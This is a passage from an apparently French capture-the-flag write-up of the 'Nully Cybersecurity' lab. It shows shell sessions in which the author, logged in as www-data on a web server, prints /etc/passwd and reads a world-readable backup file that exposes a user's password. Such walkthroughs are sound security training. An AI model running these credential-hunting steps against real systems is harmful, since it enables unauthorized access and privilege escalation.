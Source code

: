 Je m'y connecte depuis `MailServer` :

```shellsession
root@MailServer:/root# ssh -p 31337 172.17.0.5
The authenticity of host '[172.17.0.5]:31337 ([172.17.0.5]:31337)' can't be established.
RSA key fingerprint is SHA256:Mi6GInNEYmXViUaaf2Gf8q1DXoQb/RAUgA2gquh3R1A.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[172.17.0.5]:31337' (RSA) to the list of known hosts.
root@172.17.0.5's password: 
www-data@WebServer:/var/www/html/ping$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
oscar:x:1000:1000:Oscar White,,,,I am sysadmin of the Nully Cybersecurity web server:/home/oscar:/bin/bash
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
oliver:x:1001:1001:Oliver Jackson,,,,I am in charge of the website and web applications:/home/oliver:/bin/bash
messagebus:x:102:104::/nonexistent:/usr/sbin/nologin
```

J'ai pris l'habitude de jeter un oeil dans `/var/backups` comme l'aurait fait `LinPEAS` :

```shellsession
www-data@WebServer:/var$ ls backups/
total 16K
drwxr-xr-x 1 root   root   4.0K Aug 26  2020 .
drwxr-xr-x 1 root   root   4.0K Aug 25  2020 ..
-rwxrwxrwx 1 oliver oliver   63 Aug 26  2020 .secret
www-data@WebServer:/var$ cat backups/.secret 
Dont forget
my password - 4hppfvhb9pW4E4OrbMLwPETRgVo2KyyDTqGF
```

J'ai aussi pris l'habitude de créer un alias pour la commande `ls`, ce qui explique que les fichiers cachés apparaissent :

```bash
alias ls="ls -alh --color"
```
